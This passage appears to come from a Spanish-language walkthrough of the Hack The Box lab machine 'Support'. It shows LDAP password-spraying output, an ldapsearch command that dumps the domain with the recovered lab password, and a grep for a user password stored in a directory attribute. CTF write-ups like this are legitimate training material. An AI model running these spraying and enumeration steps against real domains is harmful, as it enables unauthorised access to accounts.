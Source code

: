 ```
LDAP        10.129.178.149  389    DC               [-] support.htb\anderson.damian:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
LDAP        10.129.178.149  389    DC               [-] support.htb\monroe.david:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
LDAP        10.129.178.149  389    DC               [-] support.htb\cromwell.gerard:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
LDAP        10.129.178.149  389    DC               [-] support.htb\west.laura:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
LDAP        10.129.178.149  389    DC               [-] support.htb\levine.leopoldo:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
LDAP        10.129.178.149  389    DC               [-] support.htb\langley.lucy:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
LDAP        10.129.178.149  389    DC               [-] support.htb\daughtler.mabel:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
LDAP        10.129.178.149  389    DC               [-] support.htb\bardot.mary:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
LDAP        10.129.178.149  389    DC               [-] support.htb\stoll.rachelle:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
LDAP        10.129.178.149  389    DC               [-] support.htb\thomas.raphael:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
LDAP        10.129.178.149  389    DC               [-] support.htb\smith.rosario:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
LDAP        10.129.178.149  389    DC               [-] support.htb\wilson.shelby:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
LDAP        10.129.178.149  389    DC               [-] support.htb\hernandez.stanley:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
LDAP        10.129.178.149  389    DC               [-] support.htb\ford.victoria:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

`Enumeramos` todo el `contenido` del `dominio` usando las `credenciales obtenidas`

```
# ldapsearch -x -H ldap://10.129.230.181 -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" > ldap_output.txt
```

`Obtenemos` una `contraseña` la cual `pertenece` al usuario `support`

```
# catnp ldap_output.txt -l ruby | grep info -B 16 
objectSid:: AQIAAAAAAAUgAAAAMAIAAA==
sAMAccountName: Windows Authorization Access Group
sAMAccountType: 536870912
systemFlags: -1946157056
groupType: -2147483643
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=support,DC=htb
isCriticalSystemObject: TRUE
dSCorePropagationData: 20220528110343.0Z
dSCorePropagationData: 16010101000001.0Z

# Terminal Server License Servers, Builtin, support.htb
dn: CN=Terminal Server License Servers,CN=Builtin,DC=support,DC=htb
objectClass: top
objectClass: group
cn: Terminal Server License Servers
description: Members of this group can update user accounts in Active Director
 y with information about license issuance, for the purpose of tracking and re
--
objectSid:: AQUAAAAAAAUVAAAAG9v9Y4G6g8nmcEILCgIAAA==
sAMAccountName: Cloneable Domain Controllers
sAMAccountType: 268435456
groupType: -2147483646
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=support,DC=htb
isCriticalSystemObject: TRUE
```